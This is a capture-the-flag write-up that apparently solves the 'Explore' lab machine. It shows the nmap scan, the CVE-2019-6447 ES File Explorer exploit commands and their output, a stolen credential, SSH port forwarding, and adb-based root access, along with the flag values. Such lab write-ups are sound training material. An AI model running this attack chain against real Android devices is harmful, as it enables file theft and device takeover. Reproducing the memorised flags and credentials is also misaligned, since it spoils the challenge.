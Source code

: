 # Explore

## Ifconfig

```
inet 10.10.14.46  netmask 255.255.254.0
inet6 fe80::4d6f:8a37:ee37:6175 
```

## Nmap

> sudo nmap -sC -sV -A 10.10.10.247 | tee [nmap.log](./nmap.log)

Found http 42135 *(ES file explorer)* and 59777 *(minecraft server)* port

## ES file explorer exploit

- Due to [CVE-2019-6447](https://www.cvedetails.com/cve/CVE-2019-6447/)

```
The ES File Explorer File Manager application through 4.1.9.7.4 for Android allows remote attackers to read arbitrary files or execute applications via TCP port 59777 requests on the local Wi-Fi network. This TCP port remains open after the ES application has been launched once, and responds to unauthenticated application/json data over HTTP.
Publish Date : 2019-01-16 Last Update Date : 2021-06-29 
```

- Use [exploit tools](https://www.exploit-db.com/exploits/50070)

> python [esexploit.py](./esexploit.py) listPics 10.10.10.247

```
==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

> python [esexploit.py](./esexploit.py) getFile 10.10.10.247 [/storage/emulated/0/DCIM/creds.jpg](./exploited/creds.jpg)

```
username: kristi
password: Kr1sT!5h@Rp3xPl0r3!
```

## ssh

- Android open ssh port at 2222

> ssh kristi@10.10.10.247 -p 2222

> whoami

```
u0_a76
```

> cd /sdcard

```
user.txt
f32017174c7c7e8f50c6da52891ae250
```

- Export the port 5555 to localhost

> ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555

And then use adb(Android debug bridge) to connect port 5555 of localhost

> adb connect localhost:5555

```
connected to localhost:5555
```

> adb devices -l

```
List of devices attached
localhost:5555         device product:android_x86_64 model:VMware_Virtual_Platform device:x86_64 transport_id:2
```

- Use adb shell to the serial connect

> adb -s localhost:5555 shell

> whoami

```
shell
```

> su

> whoami

```
root
```

- Find root.txt file

> find / -name root.txt 2> /dev/null

```
/data/root.txt

f04fc82b6d49b41c9b08982be59338c5
```
